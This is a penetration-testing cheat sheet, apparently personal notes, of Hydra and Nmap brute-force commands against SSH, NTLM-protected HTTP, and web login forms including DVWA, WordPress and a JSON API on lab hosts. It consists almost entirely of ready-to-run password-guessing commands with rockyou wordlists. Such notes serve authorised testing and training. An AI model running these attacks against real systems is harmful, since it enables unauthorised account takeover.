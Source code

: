 # Services

```bash


hydra <url> ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/wordlists/rockyou.txt -f -V 


hydra -L users.txt -P pass.txt <service://server> <options>


hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P LIST 192.168.1.105 -t 4 ssh

hydra -L USERNAME_LIST -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P LIST 192.168.1.105 -t 4 ssh

# ntlm bruteforce fail when 401 http 
hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'
```

Copy
```

```bash

-s # port 
-l USERNAME -L USERNAME.txt
-p PASS -P PASSWORDS.txt
-U check for moudle info
http-post-form # for http brute force 
ssh 
-f # exit after first successful creds found 

```


# web
```bash

hydra <url> <method> "<Login page>:<usrname&password paramaters>:<Failed to login message>" -f -V

hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:Invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/wordlists/rockyou.txt -f -V


hydra -L *USERNAME_WORDLIST* -P *PASSWORD_WORDLIST* 
192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' *Wordpress*

#json

hydra -v -V -P /usr/share/wordlists/rockyou.txt -s 3000 node.htb http-post-form "/api/session/authenticate:
username=^USER^&password=^PASS^:Login Failed! Incorrect credentials were specified" -L users.txt -P /usr/share/
wordlists/rockyou.txt -f -v 

```


# Nmap ssh brute

```bash
nmap -p 22 --script ssh-brute --script-args userdb=/root/users demo.ine.local

```
